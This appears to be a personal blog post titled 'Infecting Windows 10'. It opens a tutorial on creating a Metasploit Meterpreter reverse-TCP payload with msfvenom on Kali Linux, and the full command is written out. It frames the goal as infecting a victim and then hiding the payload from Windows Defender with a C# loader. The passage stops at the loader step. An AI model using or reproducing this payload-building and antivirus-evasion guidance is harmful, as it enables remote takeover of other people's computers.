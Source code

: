 ```yaml
---
layout: post
title:  "Infecting Windows 10"
date:   2023-06-30 21:21:21 +0530
tags: [csharp,kali-linux,virus]
---
```


**Introduction to Infecting Windows 10**

For my first post that has actual content, I am going to show you guys how to create a payload in Metasploit on Kali Linux and then create a loader for it in C#!

**Step 1: Creating the Payload**

First you need to hop on Kali and open a terminal. Then we are going to use a command to create a payload for us to use. Type the following in your terminal:
```bash
$ sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=$HOST LPORT=$PORT -f exe > payload.exe
```
Okay so, what does the do? This command creates a compiled binary that contains the payload `windows/meterpreter/reverse_tcp` which is a payload that allows us to start a Metasploit session once they run the program.

<i>HOST</i> refers to the ip of the attacker (127.0.0.1)
<i>PORT</i> refers to the port that you will listen to on your attacking machine (4444)

You now have your payload and it's time to infect your victim! Except, oh wait! Windows Defender and every antivirus every made will detect this because it's been exposed to the public for years. So, how do we hide it and make it undetectable?

**Step 2: Creating the Loader**